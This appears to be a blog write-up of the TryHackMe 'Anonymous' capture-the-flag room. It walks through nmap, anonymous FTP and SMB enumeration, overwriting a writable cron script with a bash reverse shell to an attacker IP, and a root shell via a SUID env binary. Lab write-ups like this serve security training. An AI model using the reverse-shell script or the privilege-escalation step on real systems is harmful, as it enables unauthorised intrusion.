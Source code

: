 ```yaml
---
title: "TryHackMe - Anonymous"
author: Nasrallah
description: ""
date: 2022-04-15 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, smb, ftp]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello l33ts, I hope you are doing well. We are doing [Anonymous](https://tryhackme.com/room/anonymous) from [TryHackMe](https://tryhackme.com)

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```Terminal
Nmap scan report for 10.10.50.126                                                                                                                            
Host is up (0.12s latency).                                                                                                                                  
Not shown: 996 closed tcp ports (reset)                                                                                                                      
PORT    STATE SERVICE     VERSION                                             
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst:
|   STAT:                                                                                                                                                    
| FTP server status:                                                          
|      Connected to ::ffff:10.11.31.131
|      Logged in as ftp                
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -21m37s, deviation: 0s, median: -21m37s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time:
|   date: 2022-04-03T12:43:56
|_  start_date: N/A
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2022-04-03T12:43:56+00:00
```

There are 4 open ports:

 - 21 ftp vsftpd
 - 22 ssh OpenSSH 7.6p1
 - 139 netbios-ssn Samba smbd
 - 445 netbios-ssn Samba smbd

Let's start off by enumerating ftp since it allows anonymous login.

### FTP

We can connect to the ftp server with `ftp {target_IP}`, we supply the name as `anonymous` and we can left the password blank.

![](/assets/img/tryhackme/anonymous/a1.png)

We found some files on the server, we can download them to our machine using `get {filename}`.

Now that the files are downloaded, let's see what's on them.

![](/assets/img/tryhackme/anonymous/a3.png)

First, we have `clean.sh` script that seems to be a cleaning script. The `to_do.txt` file has a note for removing the anonymous login. The third file, `removed_file.log`, has a bunch of text that's beings repeated, and it is the same text we saw in the `clean.sh` script ,so there must be a cronjob that runs `clean.sh` regularly.

### SMB

We can check the shares of the smb server by running : `sudo smbclient -L {target_IP} -N`.

![](/assets/img/tryhackme/anonymous/a2.png)

We found `pics` share, we can connect to that share with this command : `sudo smbclient //{target_IP}/pics -N`

![](/assets/img/tryhackme/anonymous/asmb.png)

There are two pictures there, i downloaded them using `get {filename}`, inspected them for hidden content but i got nothing.


## **Foothold**

We can use the `clean.sh` script to get access to the machine, let's check it's permissions first.

![](/assets/img/tryhackme/anonymous/a4.png)

We see that can edit the script. What i did is i created a file with the same name 'clean.sh' and put the following script in that file.

```bash
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.11.x.x/9001 0>&1
```

This script sends a reverse shell, so i setup a listener on my machine with `nc -lvnp 9001`, and uploaded a script to the ftp server using `put clean.sh`.

![](/assets/img/tryhackme/anonymous/a5.png)

Waiting for some time, i got the shell.

![](/assets/img/tryhackme/anonymous/a6.png)


## **Privilege Escalation**

For privesc, I uploaded linpeas and ran it.

![](/assets/img/tryhackme/anonymous/a7.png)

We found that `env` has suid binary set, searching for the binary in [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) we found that we can run `env /bin/bash -p` and get a root shell

![](/assets/img/tryhackme/anonymous/a8.png)

Great! We got root access.


---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
